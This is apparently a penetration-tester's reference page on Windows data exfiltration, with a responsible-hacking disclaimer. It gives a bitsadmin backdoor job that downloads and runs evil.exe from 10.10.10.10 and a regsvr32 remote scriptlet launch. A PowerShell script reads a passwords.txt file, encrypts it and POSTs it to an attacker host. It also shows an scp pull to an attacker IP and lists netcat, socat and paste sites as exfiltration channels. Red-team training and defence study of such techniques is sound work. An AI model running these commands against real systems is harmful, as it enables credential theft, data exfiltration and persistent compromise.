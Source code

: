# Data Exfiltration

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.‌
{% endhint %}

\
Not much here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)

### BITS Jobs

{% tabs %}
{% tab title="PowerShell" %}
First, you must import the BitsTransfer PowerShell Module with `Import-Module BitsTransfer`.  After you import the BitsTransfer module, the following cmdlets are available:

* **`Add-BitsFile`** Adds files to a BITS transfer
* **`Complete-BitsTransfer`** Completes a BITS transfer
* **`Get-BitsTransfer`** Gets a BITS transfer
* **`Remove-BitsTransfer`** Stops a BITS transfer
* **`Resume-BitsTransfer`** Resumes a suspended BITS transfer
* **`Set-BitsTransfer`** Configures a BITS transfer job
* **`Start-BitsTransfer`** Creates and starts a BITS transfer job
* **`Suspend-BitsTransfer`** Pauses a BITS transfer job

For example, the following Windows PowerShell command begins a BITS transfer from the local computer to a computer named CLIENT:

```powershell
Start-BitsTransfer -Source file.txt -Destination \\client\share -Priority normal
```

When running Windows PowerShell interactively, the PowerShell window displays the progress of the transfer. The following command uses an abbreviated notation to download a file from a Web site to the local computer:

```powershell
Start-BitsTransfer https://server/dir/myfile.txt C:\docs\myfile.txt
```

Manage BITS with PowerShell - Microsoft:

* [https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721(v=msdn.10)](https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721\(v=msdn.10\))
{% endtab %}

{% tab title="cmd.exe" %}
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```
{% endtab %}
{% endtabs %}

### Using FTP

See [this section](privilege-escalation.md#using-ftp) under Privilege Escalation

### Using SMB

{% tabs %}
{% tab title="PowerShell" %}
#### Create an SMB share <a href="#example-1-create-an-smb-share" id="example-1-create-an-smb-share"></a>

```powershell
New-SmbShare -Name "Exfil" -Path "C:\temp" -FullAccess "$Domain\Administrator"
```

This command creates an SMB share named "Exfil" and grants Full Access permissions to "$Domain\\$UserName".

For more about the New-SmbShare PowerShell cmdlet:

* [https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps](https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps)
{% endtab %}

{% tab title="cmd.exe" %}

{% endtab %}
{% endtabs %}

See [this section](privilege-escalation.md#smb) under Privilege Escalation for more

### HTTP POST with PowerShell

If you set up a web server to accept post requests, you can either AES encrypt or base64 encode your target data and simply send an HTTP request to the server with the data.

Example with AES encrypted payload:

```
$file = Get-Content C:\Users\Target\Desktop\passwords.txt
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("54b8617eca0e54c7d3c8e6732c6b687a")
$securestring = New-Object System.Security.SecureString
foreach ($char in $file.toCharArray()) {
      $secureString.AppendChar($char)
}
$encryptedData = ConvertFrom-SecureString -SecureString $secureString -Key $key

Invoke-WebRequest -Uri http://www.attacker.host/exfil -Method POST -Body $encryptedData
```

To decode the data on the other side simply reverse the process:

```
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("54b8617eca0e54c7d3c8e6732c6b687a")
$encrypted = "$encrypted_payload"
echo $encrypted | ConvertTo-SecureString -key $key | ForEach-Object {[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR($_))}
```

Simply substitute the `$encrypted_payload` variable with the actual content that was sent in the body of the HTTP request, and you will have your exfiltrated file!

### Covert to and from Base64 with PowerShell

You can always convert your data or files to be exfiltrated to Base64 text and simply copy and paste this in your terminal (or use bash/PowerShell magic to convert your target data back).  See [this section](privilege-escalation.md#covert-to-and-from-base64-with-powershell) under Privilege Escalation for more information on this technique.

### Send an email with PowerShell

#### PowerShell `Send-MailMessage` cmdlet

```powershell
Send-MailMessage -From 'User01 <user01@fabrikam.com>' -To 'User02 <user02@fabrikam.com>', 'User03 <user03@fabrikam.com>' -Subject 'Sending the Attachment' -Body "Forgot to send the attachment. Sending now." -Attachments .\data.csv -Priority High -DeliveryNotificationOption OnSuccess, OnFailure -SmtpServer 'smtp.fabrikam.com'
```

* The **`From`** parameter to specify the message's sender.&#x20;
* The **`To`** parameter specifies the message's recipients.&#x20;
* The **Subject** parameter describes the content of the message.&#x20;
* The **Body** parameter is the content of the message.
* The **`Attachments`** parameter specifies the file in the current directory that is attached to the email message.&#x20;
* The **`Priority`** parameter sets the message to **High** priority.&#x20;
* The **`-DeliveryNotificationOption`** parameter specifies two values, **`OnSuccess`** and **`OnFailure`**. The sender will receive email notifications to confirm the success or failure of the message delivery.&#x20;
* The **`SmtpServer`** parameter sets the SMTP server to **smtp.fabrikam.com**.

According to Microsoft this cmdlet has been deprecated with no replacement.  However, if it is present on the machine it should still work!

* [https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2)

## Misc

### Web services

* Anon paste sites like Pastebin offer an easy exfiltration channel.&#x20;
* GitHub and other code versioning sites are often permitted in many technical organizations.
* Many common file-storage sites like OneDrive, Dropbox, Google Drive, and Box are often permitted, especially if an organization outsources to shared cloud services.

### File-transfer Programs

In addition to the methods listed above, the following programs can be used to transfer files, provided you have copied the program to the victim machine, and it is not blocked:

* netcat
* socat
* tftp

### SCP

The attacker has to have SSHd running.

```bash
scp <username>@<Attacker_IP>:<directory>/<filename> 
```

### Airgap Exfiltration

* [https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/](https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/)

## References

* [https://azeria-labs.com/data-exfiltration/](https://azeria-labs.com/data-exfiltration/)
* [https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/)

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!
